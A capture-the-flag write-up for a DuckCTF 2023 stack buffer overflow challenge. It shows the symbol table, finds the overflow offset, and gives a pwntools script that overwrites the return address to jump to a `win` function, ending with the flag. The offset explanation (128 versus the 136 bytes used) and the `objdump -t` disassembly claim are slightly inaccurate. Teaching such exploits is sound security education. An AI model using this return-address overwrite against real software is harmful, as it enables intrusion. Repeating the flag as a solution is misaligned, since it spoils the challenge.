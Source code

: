 ```yaml
---
layout: post
title: Return Address Override - DuckCTF 2023
date: 2023-08-04T00:00:00.000Z
description: Ok. So buffer overflows exist, but if I put my data in a different function, my private data will be safe from buffer overflows.
author:	lachlan 
categories:
  - ctf
  - write-ups
  - pwn 
---
```


This challenge provides us with the binary, so let us begin by printing the objects in the binary with `objdump -t`:

```
SYMBOL TABLE:
0000000000000000 l    df *ABS*	0000000000000000 crt1.c
0000000000000000 l    df *ABS*	0000000000000000 crtstuff.c
0000000000403e60 l     O .ctors	0000000000000000 __CTOR_LIST__
0000000000403e70 l     O .dtors	0000000000000000 __DTOR_LIST__
0000000000402070 l     O .eh_frame	0000000000000000 __EH_FRAME_BEGIN__
0000000000401090 l     F .text	0000000000000000 deregister_tm_clones
00000000004010c0 l     F .text	0000000000000000 register_tm_clones
0000000000401100 l     F .text	0000000000000000 __do_global_dtors_aux
0000000000404020 l     O .bss	0000000000000001 completed.2
0000000000404028 l     O .bss	0000000000000008 dtor_idx.1
0000000000401190 l     F .text	0000000000000000 frame_dummy
0000000000404040 l     O .bss	0000000000000030 object.0
0000000000000000 l    df *ABS*	0000000000000000 crtstuff.c
0000000000403e68 l     O .ctors	0000000000000000 __CTOR_END__
00000000004020d0 l     O .eh_frame	0000000000000000 __FRAME_END__
00000000004012b0 l     F .text	0000000000000000 __do_global_ctors_aux
0000000000000000 l    df *ABS*	0000000000000000 med.c
0000000000000000 l    df *ABS*	0000000000000000
0000000000403e80 l     O .dynamic	0000000000000000 _DYNAMIC
0000000000402000 l       .eh_frame_hdr	0000000000000000 __GNU_EH_FRAME_HDR
0000000000403fd0 l     O .got	0000000000000000 _GLOBAL_OFFSET_TABLE_
0000000000000000       F *UND*	0000000000000000 gets
0000000000404008 g     O .data	0000000000000000 .hidden __TMC_END__
0000000000403e78 g     O .dtors	0000000000000000 .hidden __DTOR_END__
0000000000000000       F *UND*	0000000000000000 puts
0000000000404000 g     O .data	0000000000000000 .hidden __dso_handle
0000000000401000 g     F .init	0000000000000001 _init
00000000004011d3 g     F .text	00000000000000a0 getName
00000000004011bd g     F .text	0000000000000016 win
0000000000401050 g       .text	0000000000000000 _start
0000000000401066 g     F .text	0000000000000024 _start_c
0000000000404008 g       .bss	0000000000000000 __bss_start
0000000000401273 g     F .text	000000000000002f main
00000000004012f1 g     F .fini	0000000000000001 _fini
0000000000404008 g       .data	0000000000000000 _edata
0000000000404078 g       .bss	0000000000000000 _end
0000000000000000       F *UND*	0000000000000000 __libc_start_main
0000000000404070 g     O .bss	0000000000000008 FLAG
```

As we can see, `gets` is being used, which means this program is likely vulnerable to a buffer overflow with `gets`. So, without trying anything else yet, let us see if we can cause a segfault.

```
python -c "print('a' * 10000)" | ./med
```

Upon running the command above, we get the following error;
```
Segmentation fault (core dumped)
```
Awesome! This means we over-wrote the return address pushed to the stack when calling a function that calls `gets`, and thus when the function tried to return, it returned to a location that does not exist in the binary, therefore throwing an error. Hence, if we work hard enough, we can tell the function to return to a location we desire (perhaps a part of the binary that prints the flag).

To do this, we need to:

1) Determine exactly how many characters are required in our input before we start changing the return address (this is called the offset)
2) Find a location that runs the code we want to run (say print the flag)

The first job is easy enough. We know that 10000 characters is too many, so how about 500? That also segfaults. So how about 250? Yep, still segfaults. What about 100? Nope. Runs fine. 128? Yes. 127? Nope! This means that the offset is 128 characters (it is not 127 as there is a new line character, so when we entered 127 characters, there were really 128 characters sent, all of which did not change the return address). So our payload should be 128 random characters followed by our desired address. 

To find a location in the code we might want to jump to, we can look at our symbols table again. We see that there is a function called `win`, and if we look at the assembly for `win` (with `objdump -t`);

```
00000000004011bd <win>:
  4011bd:       55                      push   %rbp
  4011be:       48 89 e5                mov    %rsp,%rbp
  4011c1:       48 8b 05 a8 2e 00 00    mov    0x2ea8(%rip),%rax        # 404070 <FLAG>
  4011c8:       48 89 c7                mov    %rax,%rdi
  4011cb:       e8 60 fe ff ff          call   401030 <puts@plt>
  4011d0:       90                      nop
  4011d1:       5d                      pop    %rbp
  4011d2:       c3                      ret
```

we can see that it will print the flag. So let us jump to `win` which is at address `0x004011bd`.

The following program does just this
```python=
from pwn import *

# Remote
shell = remote('chall.duckctf.com', 30003)

# Local with test flag
#shell = process(['./med', "flag{test flag}"])

winAddress = 0x004011bd

payload = b'a' * 136 + p64(winAddress)

shell.sendline(payload)
shell.interactive()
```

Running this gives the flag `quack{a_simple_return_address_override}`.
